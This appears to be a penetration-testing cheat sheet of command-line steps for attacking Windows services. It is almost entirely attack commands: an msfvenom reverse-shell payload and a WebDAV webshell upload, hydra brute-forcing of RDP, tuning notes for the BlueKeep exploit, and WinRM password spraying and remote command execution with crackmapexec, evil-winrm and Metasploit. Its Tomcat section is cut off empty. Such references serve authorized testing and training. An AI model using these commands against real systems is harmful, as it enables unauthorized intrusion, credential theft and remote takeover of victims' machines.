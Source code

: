 ```bash
# abuse the allowed extension and upload a shell
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=1234 -f asp -o shell.asp

- WITH CADAVER - UPLOAD SHELL
> cadaver http://$IP/webdav/
> put /usr/share/webshells/asp/webshell.asp

OR USE MSF ENTIRELY
> search iis webdav upload
> set httppassword
> set RHOSTS $IP
> set PATH /webdav/metasploit.asp
```
#### RDP 
```bash
# detect rdp on some other RANDOM port
> msfconsole -q -x "use auxiliary/scanner/rdp/rdp_scanner && set rport 3333"

BRUTEFORCE
> hydra -L $Userlist -P $password rdp://$IP -s 3333

INTERACTION
> xfreerdp /u:$NAME /p:$PASS /v:$IP:PORT
> remmina

EXPLOIT : BLUEKEEP (CVE-2019-0708)
grants access to a chunk of kernel memory that allows you run arbitrary code at SYSTEM level, xp,vista,win7,server 2008 & R2
NB : if network level auth is enabled the exploit will fail.

search BlueKeep
use the scanner one to check if vuln
> set rhosts, rport(if diff port was used)

EXPLOIT (WORKS ONLY ON 64bit computers & specific targets)
> set rhosts

exploit might fail because you need to set the target, might also need to change "CHUNK size" default is 250mb, setting too high will crash target

> show targets
> set target $ID
```

#### WinRM
>5985/TCP & 5986/TCP (HTTPS)
```bash
> cme winrm $IP -u administrator -p $passlist
> cme winrm $IP -u administrator -p pass -x "whoami"

LOGIN
> evil-winrm -u administrator -p $PASS -i $IP 

=MSF=
basically for a meterpreter session via winrm
> search winrm_script 
(use exploit/windows/winrm/winrm_script_exec)
> set FORCE_VBS true
> set RHOSTS, USERNAME & PASSWORD
```
#### apache tomcat v5.5.19 and `<v9`
```bash
# for windows
```